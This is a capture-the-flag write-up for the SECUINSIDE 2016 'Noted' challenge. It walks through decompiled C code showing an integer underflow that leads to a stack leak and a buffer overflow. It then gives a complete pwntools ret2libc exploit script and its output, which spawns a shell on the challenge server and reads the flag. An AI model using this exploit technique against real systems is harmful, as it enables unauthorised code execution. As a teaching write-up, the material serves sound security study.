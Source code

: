 ```yaml
---
layout: post
title: SECUINSIDE Quals 2016 - Noted
category: [Exploitation]
tags: [Exploitation, SECUINSIDE]
comments: true
---
```


**Points:** 180
**Solves:** 19
**Category:** Exploitation
**Description:** get shell and execute /flag_x

> [noted]({{site.url}}/assets/secu-noted)
> [libc]({{site.url}}/assets/secu-libc)

{% highlight text %} 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
{% endhighlight %}

This challenge is a binary in a form of note keeping application. On start it changes directory to `/home/noted` and presents the user with a menu.
{% highlight text %}
[Simple NOTED]
Menu
1) Login
2) Register
3) Exit

{% endhighlight %}

Before login, we need to register an account. On registration the application creates a folder with the provided user id. For the password it creates a file in the new directory, password.txt that only contains plaintext ASCII password for this user.

Once we login a different menu is presented.

{% highlight text %}
Menu
1) List note
2) Write note
3) Read note
4) Edit note
5) Delete note
6) Recover note
7) Empty recyclecan
8) Logout

{% endhighlight %}

## Main menu

A short description of all the functions in the application.

1. `List note` displays the notes the user has created
2. `Write note` is how a user creates a note. Each note creates a file in the user's designated directory, each file/note starts with 16 bytes serving as a password for that note followed by a maximum of 1024 bytes of note's content.
3. `Read note` reads a note
4. `Edit note` edits a note
5. `Delete note` deletes a note by moving the note/file in a subdirectory named `recyclecan`
6. `Recover note` moves a deleted note from the recyclecan directory back to the user's main folder
7. `Empty recyclecan` deletes all files/notes in the recyclecan folder
8. `Logout` logs out by setting a local variable in main and presents the login menu

To exploit the application we only need to know the `Write note` and `Edit note` functions.

## Write note

It's going to be easier if I just show the decompiled psudo-code.
What we need to do here is, create a note with arbitrary name and password and a negative content length. The goal is to create a note with it's content only it's password.

{% highlight C %}
int write_note()
{
  int result;
  int v1;
  int n;
  int fd;
  int fda;
  int length;
  char temp_buf[16];
  char content[1024];
  char title[136];  // note name / file name

  memset(title, 0, 0x80);
  memset(content, 0, 0x400);
  memset(temp_buf, 0, 0x10);
  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;  // null terminates our input
  if ( check_alphanum(title) )
  {
    fd = open(title, 0);
    printf("filedata length : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    length = atoi(temp_buf);  // Here we need to supply negative number
    if ( length > 1023 )      // length is signed        
      length = 0;
    memset(temp_buf, 0, 0x10);
    printf("password : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    if ( length > 0 )       // negative length prevents us from
    {                       // writing to the content buffer :(
      printf("filedata : ");
      v1 = read(0, content, length + 1);
      n = v1 - 1;
      content[v1] = 0;
    }
    if ( fd == -1 )
    {
      fda = open(title, 65, 438); // creates note
      write(fda, temp_buf, 0x10); // writes note's password to the note
      if ( length <= 0 )          // we need negative length here
      {                         
        if ( !length )            // negative length prevents "(EMPTY)"
          write(fda, "(EMPTY)", 7); // to be written to the note
      }
      else
      {
        write(fda, content, n);
      }
      close(fda);      // our note's content is only it's 16 byte password ! 
    }
    else
    {
      puts("error : filename duplicate!\n");
      close(fd);
    }
    result = write(1, "\n", 1);
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

The check if length is negative before writing to the note is preventing us from supplying data to the note, however by creating a note with it's content only it's password we can trigger an integer underflow in `Edit note`.

## Edit note

{% highlight C %}
int edit_note()
{
  int result;
  int v1;
  int file_length;
  int note_fd;
  int n;
  char temp_buf[16];
  char password[16];
  char note_content[1024];
  char title[136];

  memset(title, 0, 0x80);
  memset(note_content, 0, 0x400);
  memset(password, 0, 0x10);
  memset(temp_buf, 0, 0x10);

  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;

  if ( check_alphanum(title) )
  {
    if ( check_file_stats(title, &v1) == -1 )
    {
      result = puts("error : invalid note\n");
    }
    else
    {
      // asks user for password
      memset(temp_buf, 0, 0x10);
      printf("password : ");
      temp_buf[read(0, temp_buf, 0x10) - 1)] = 0;
      password = temp_buf;
      note_fd = open(title, 0);
      if ( note_fd == -1 )
      {
        result = puts("error : cannot open note\n");
      }
      else
      {
        // read the passwd from the note
        read(note_fd, temp_buf, 0x10);
        // compare the two passwords
        if ( !memcmp(password, local_buf, 0x10) ) // 
        {
          if ( file_length - 16 <= 1024 )
          {
            // since the note's content is only it's password
            // the length of the note will be 16
            // calculating 16 - 16 - 1 will result it n being -1 via int underflow vuln
            n = read(note_fd, note_content, file_length - 16) - 1; // integer underflow here
            note_content[n] = 0;
            close(note_fd);

            // Here write will leak the whole content of the stack !
            printf("original data : ");
            write(1, note_content, n);
            note_fd = open(title, 1);

            // and here we have buffer overflow of the note_content local buffer
            printf("new file data (new file can't exceed original size) : ");
            n = read(0, note_content, n) - 1;
            note_content[n] = 0;
            write(note_fd, &local_buf, 0x10);
            write(note_fd, note_content, n);
            close(note_fd);
          }
          else
          {
            puts("error : note is too big\n");
          }
        }
        else
        {
          puts("error : incorrect password\n");
        }
        result = close(note_fd);
      }
    }
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

If you read the comments, you pretty much know what needs to be done in order to exploit this function.
So let's create a username, login and create a note with length -1. Then go into `Edit note` and edit our note. This will cause the leak of the whole stack, that's where we are going to grab an address within libc calculate the offset to `system()` and `/bin/sh` string and classically overwrite the return address of the `Edit note`. 

## Exploit

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(user, pwd):
  r.sendline('2')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('3) Exit\n')

def login(user, pwd):
  r.sendline('1')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('Menu\n')

def create_note(title):
  r.sendline('2')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('filedata length : ')
  r.sendline('-1')
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('8) Logout')

def edit_note(title):
  r.sendline('4')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('original data : ')
  leak = r.recv(0x4cc)
  libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
  leak = r.recv()
  log.info("libc addr: " + hex(libc_addr))
  bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
  system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
  log.info("/bin/sh at: " + hex(bin_sh))
  log.info("system at: " + hex(system_addr))

  payload = "A" * 0x48c
  payload += p32(system_addr)
  payload += p32(bin_sh) * 2
  r.sendline(payload)

def exploit(r):
  r.recvuntil('3) Exit\n')

  user = 'uafioas'
  pswd = 'uafioas'

  register(user, pswd)
  login(user, pswd)
  create_note('ab')
  edit_note('ab')

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/secuinside/noted/noted'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  noted python ./noted.py chal.cykor.kr 20003
[*] For remote: ./noted.py HOST PORT
[+] Opening connection to chal.cykor.kr on port 20003: Done
[*] libc addr: 0xf75c4000
[*] /bin/sh at: 0xf771d09f
[*] system at: 0xf75fe920
[*] Switching to interactive mode
new file data (new file can't exceed original size) : $
$ ls /
bin
boot
core
dev
etc
flag_x
home
lib
lib32
lib64
media
mnt
noted
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ /flag_x
df72b22170fed79911e4a69c68a1b9a0
$ id
uid=1000(noted) gid=1000(noted) groups=1000(noted)
$ whoami
noted
$
{% endhighlight %}
